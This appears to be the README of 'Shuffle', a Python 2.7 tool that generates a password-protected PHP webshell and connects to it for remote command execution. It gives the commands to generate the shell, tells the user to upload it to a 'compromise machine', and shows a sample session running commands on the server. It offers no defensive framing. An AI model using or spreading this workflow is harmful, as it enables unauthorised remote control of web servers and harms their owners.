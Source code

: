 ![Shuffle Logo](https://raw.githubusercontent.com/matiasmenares/shuffle/master/extras/logo.png)

[![Code Climate](https://codeclimate.com/github/matiasmenares/Shuffle/badges/gpa.svg)](https://codeclimate.com/github/matiasmenares/Shuffle)

### Version
0.1 (Beta)
### Installation

Only you need is Python 2.7

## Getting started
Shuffle 0.1 (Beta) works with Python 2.7 You can run it with:

```sh
$ python shuffle.py -h
```
Command:
  - -g Generate shell
  - -p Setting Password
  - -u Url to connect
  
To create a webshell run:
```sh
$ python shuffle.py -g webshell.php -p 123
```
And Webshell generate in shuffle folder.
```sh
~/shuffle/webshell.php
```
### Connecting
When you upload shell to compromise machine only you need is run shell with:

```sh
$ python shuffle.py -u http://localhost/webshell.php -p 123
```

And wait to establish connection...

```sh
#> Conecction Established, Enjoy!

localhost@apache[~]$>
```

Now you can run all command !

```sh
#> Conecction Established, Enjoy!

localhost@apache[~]$> ls
app
lib
index.php
localhost@apache[~]$> 

```
to close the conection type exit.

```sh
localhost@apache[~]$> exit
bye :)
$ 
```
## Extras
### Banner
if you want change login banner modify this file:
```sh
~/shuffle/extras/banner.txt
```
### How to Contributing?

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

Done!

License
----

MIT

**Free Software, Hell Yeah!**